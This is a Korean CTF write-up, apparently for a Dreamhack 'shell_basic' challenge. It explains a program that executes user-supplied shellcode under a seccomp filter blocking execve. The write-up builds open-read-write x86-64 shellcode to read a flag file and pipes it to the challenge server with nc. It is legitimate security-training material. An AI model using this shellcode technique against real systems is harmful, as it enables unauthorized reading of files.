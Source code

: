 ```c
// Name: shell_basic.c
// Compile: gcc -o shell_basic shell_basic.c -lseccomp

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

`shell_basic.c` 코드를 읽어보면, `stdin`을 통해 입력된 쉘코드를 실행시키는 프로그램임을 알 수 있다.
다만, 입력된 쉘코드에 `execve` 또는 `execveat` 명령이 있는 경우, 해당 명령을 실행시키지 않는다.
따라서, `/home/shell_basic/flag_name_is_loooooong`을 열고, 해당 파일의 내용을 읽은 후 다시 출력하는 프로그램의 어셈블리 코드를 작성하여, 해당 코드의 opcode를 `shell_basic` 프로세스에 넘겨주면 flag를 얻을 수 있음을 알 수 있다.

이를 위해선 가장 먼저, `/home/shell_basic/flag_name_is_loooooong`의 ascii 코드를 알아낼 필요가 있다.
이를 위해 다음과 같은 python 코드를 작성하면, 위 문자열의 16진수 표현을 알 수 있다.

```python
# Name: get_hex.py

filename = '/home/shell_basic/flag_name_is_loooooong'
output = ''
for c in filename:
    output += f'\\x{ord(c):0>2x}'
print(output)
```

위 코드를 실행하면 다음 문자열을 얻을 수 있다.

`\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x65\x6c\x6c\x5f\x62\x61\x73\x69\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67`

위 문자열과, 알려진 orw 어셈블리를 활용하여 다음과 같은 어셈블리 코드를 작성할 수 있다.

```
; Name: orw.asm

section .text
global run_sh

run_sh:
push 0x0
mov rax, 0x676e6f6f6f6f6f6f
push rax
mov rax, 0x6c5f73695f656d61
push rax
mov rax, 0x6e5f67616c662f63
push rax
mov rax, 0x697361625f6c6c65
push rax
mov rax, 0x68732f656d6f682f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall

mov rdi, 1
mov rax, 0x1
syscall

xor rdi, rdi
mov rax, 0x3c	
syscall
```

이제 위 어셈블리 코드를 다음 명령어를 이용하여 바이너리 파일로 변환하면 쉘코드를 얻을 수 있다.

```bash
$ nasm -f elf64 orw.asm
$ objcopy --dump-section .text=orw.bin orw.o
$ xxd orw.bin
```

이제 위에서 얻은 쉘코드를 다음 명령어를 통해 서버로 넘겨주면 flag를 얻을 수 있다.

```bash
$ cat orw.bin | nc host3.dreamhack.games <port>
```